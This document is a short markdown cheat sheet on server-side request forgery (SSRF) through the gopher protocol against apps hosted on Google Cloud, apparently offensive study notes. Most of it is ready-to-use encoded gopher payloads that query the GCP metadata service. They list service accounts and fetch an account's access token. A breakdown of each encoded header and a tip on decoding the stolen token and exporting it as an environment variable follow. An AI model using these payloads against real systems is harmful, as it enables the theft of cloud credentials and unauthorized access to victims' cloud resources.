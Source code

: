 # SSRF using Gopher protocol

### If we successfully detect a SSRF vulnerability in a web app and the web app is hosted on GCP, we may use specific protocols and URLs to request specific information, depending on the case.

### URL Example:

    gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a

# Breakdown

## Protocol and Target: gopher://metadata.google.internal:80/ 

#### This part of the payload specifies that the Gopher protocol is being used to make a request to metadata.google.internal on port 80. As mentioned, metadata.google.internal is a special domain used internally by Google Cloud services to provide metadata information to VM instances.

## Crafted Request: GET /computeMetadata/v1/instance/service-accounts/SERVICE_ACCOUNT/token 

#### This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.

## %2520HTTP%252f%2531%252e%2531 

#### This is an encoded form of " HTTP/1.1"

## %250AHost:%2520metadata.google.internal 

#### This is an encoded header specifying the host.

## %250AAccept:%2520%252a%252f%252a 

#### Encoded header for the Accept field, indicating that any media type is acceptable in response.

## %250aMetadata-Flavor:%2520Google 

#### Importantly this sets the header that is required to access the metadata service.

## SSRF Payloads

### List Service Accounts

    gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

### Fetch Access Token of the listed Service Account 

    gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

## TIP: The response is HTML encoded so we can select the entire token, right-click it and select Convert selection > HTML > HTML-decode. After that, copy the token to your clipboard and then use it as an environmental variable.

### Command: 

    export GOOGLE_ACCESS_TOKEN="ACCESS_TOKEN"

